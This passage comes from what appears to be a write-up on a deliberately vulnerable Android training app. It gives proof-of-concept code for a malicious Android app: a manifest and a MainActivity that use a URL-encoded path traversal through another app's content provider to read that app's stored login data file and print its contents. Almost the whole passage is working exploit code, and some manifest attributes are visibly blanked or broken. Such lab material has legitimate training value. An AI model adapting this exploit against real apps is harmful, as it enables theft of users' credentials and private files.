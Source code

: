 The **PoC** of our malicious application may looks like these,

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.evil.eviltheftfileparttwo"><application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.Eviltheftfileparttwo">
        <activity android:>
            <intent-filter>
                <action android: />
            </intent-filter>
        </activity>
    </application></manifest>
```

MainActivity Class:

```
package com.evil.eviltheftfileparttwo;import androidx.appcompat.app.AppCompatActivity;import android.content.ContentResolver;
import android.net.Uri;
import android.os.Bundle;
import android.os.Environment;
import android.util.Log;
import android.widget.TextView;import java.io.BufferedReader;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStreamReader;
import java.util.ArrayList;public class MainActivity extends AppCompatActivity {@Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        TextView stealer = findViewById(R.id.stealedbuffer);
        stealer.setText("");
        try {
            ArrayList<String> mylist = new ArrayList<String>();
            File path = Environment.getExternalStorageDirectory();
            Log.d("PATHssss",path.toString());
            String pathtraversal = "..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Foversecured.ovaa%2Fshared_prefs%2Flogin_data.xml";
            ContentResolver cr = this.getContentResolver();
            FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse("content://oversecured.ovaa.theftoverwrite/"+pathtraversal));
            BufferedReader r = new BufferedReader(new InputStreamReader(fis));
            String textss;
            String mLine;
            if ((mLine = r.readLine()) != null){
                stealer.append("We finally got it!\n\n");
            }
            while ((mLine = r.readLine()) != null) {
                stealer.append(mLine+"\n");
            }} catch (Throwable th){
            throw new RuntimeException(th);
        }
    }}
```
